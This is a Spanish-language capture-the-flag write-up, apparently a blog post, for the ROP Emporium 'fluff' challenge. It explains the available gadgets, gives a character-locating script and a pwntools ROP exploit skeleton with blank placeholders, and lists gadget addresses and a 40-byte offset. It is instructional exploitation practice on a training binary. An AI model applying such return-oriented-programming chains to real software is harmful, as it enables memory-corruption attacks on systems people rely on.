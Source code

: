 ```yaml
---
title: Solución Ropemporium fluff
date: 2024-01-14
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop]
---
```


# Introducción

El Desafío **Ropemporium fluff** presenta similitudes con el desafío **write4**. La tarea consiste en identificar **gadgets** para escribir en registros. El enunciado advierte sobre la disponibilidad limitada de gadgets en este binario y sugiere explorar **questionableGadgets**. Además, se nos encomienda realizar una llamada a la función **print_file()**.

## Exploración de Gadgets en `questionableGadgets`

Para comprender mejor las herramientas disponibles en questionableGadgets, hemos utilizado **pwndbg** para analizar la función.
![Pwndbg questionable](/assets/img/rop/questionableGadgets.png)

1. **Gadget 1:** `xlat BYTE PTR ds:[rbx]`
   - *Descripción:* Realiza una traducción de byte utilizando el contenido de `rbx`.
   - *Utilidad:* Ideal para manipular y transformar datos almacenados en el registro `rbx`.

2. **Gadget 2:** `pop rdx; pop rcx; add rcx,0x3ef2`
   - *Descripción:* Desapila valores en `rdx` y `rcx`, luego suma `0x3ef2` a `rcx`.
   - *Utilidad:* Ofrece control sobre los registros `rdx` y `rcx`, permitiendo manipulación eficiente de datos.

3. **Gadget 3:** `bextr rbx,rcx,rdx`
   - *Descripción:* Realiza una extracción de bits desde `rcx` hasta `rdx` y almacena el resultado en `rbx`.
   - *Utilidad:* Útil para operaciones avanzadas de manipulación de bits.

4. **Gadget 4:** `stos BYTE PTR es:[rdi],al`
   - *Descripción:* Almacena el contenido del registro `al` en la dirección apuntada por `rdi` en la segmentación de datos.
   - *Utilidad:* Simplifica la escritura eficiente de datos en memoria.

Esta exploración detallada proporciona una base sólida para construir nuestra cadena **ROP** de manera estratégica, utilizando estos **gadgets** de manera coordinada para lograr con éxito nuestro objetivo de invocar la función `print_file()`.

# Enfoque de explotación

Con un **offset** de 40 bytes una vez controlamos **RIP**, utilizaremos los siguientes gadgets: `bextr_rbx_rcx_rdx` para extraer bits y `xlatb`.

### Determinación de Dirección de Datos:

Identificar la dirección de datos donde se almacenarán los datos, en este caso, la cadena **"flag.txt"**.

### Localización de Caracteres en la Memoria:

Buscar la dirección de cada carácter individual en la cadena **"flag.txt"** en el binario utilizando la función read y almacenarlo en un **array**.

El siguiente script realiza esta tarea:

```python
from pwn import *

binary_content = open('fluff', 'rb').read()
binary_offset = 0x400000
string_to_write = b"flag.txt"
char_locations = []

for char in string_to_write:
    char_addr = hex(binary_content.find(char) + binary_offset)
    char_locations.append(char_addr)
    print(f"{chr(char)} encontrado en {char_addr}")
```

### Gadgets
Necesitamos **pop_rdi** y también necesitaremos saber la dirección de ``rax, así como pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`` , ``stosb byte ptr [rdi], al; ret;`` y ``print_file``

### Esqueleto del exploit

```python
from pwn import process, p64, log

shell = process("./fluff")

offset = 40
junk = b"A" * offset

strings = []
flag = "flag.txt"

print_file = p64()
data = 

pop_rdi = p64()
stosb = p64()
xlatb = p64()
pop_rdx = p64()

rax = 

payload  = b""
payload += junk

for i in range(len(flag)):
    payload += pop_rdx + p64(0x2000) + p64(strings[i] - 0x3ef2 - rax)
    payload += xlatb
    payload += pop_rdi + p64(data + i)
    payload += stosb
    rax = ord(flag[i])

payload += pop_rdi
payload += p64(data)
payload += print_file

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```
Empezamos con el **script** anteriror para saber los **strings** que seran los siguientes:

```shell
f encontrado en 0x4003c4
l encontrado en 0x400239
a encontrado en 0x4003d6
g encontrado en 0x4003cf
. encontrado en 0x40024e
t encontrado en 0x400192
x encontrado en 0x400246
t encontrado en 0x400192
```
Luego los **gadgets** que los sacamos de **questionableGadgets**:

```0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]```

```0x0000000000400639 <+17>:	stos   BYTE PTR es:[rdi],al```

```0x000000000040062a <+2>:	pop    rdx```

Ahora nos falta la dirección de **print_file**, la cual podemos obtener utilizando **Radare2**. La dirección es la siguiente: ``0x00400510``. También nos queda **rax**, que podemos ver usando Pwndbg con un breakpoint, que sería así: ``0xb``.

# Exploit

![Pwndbg questionable](/assets/img/rop/fluffexp.png)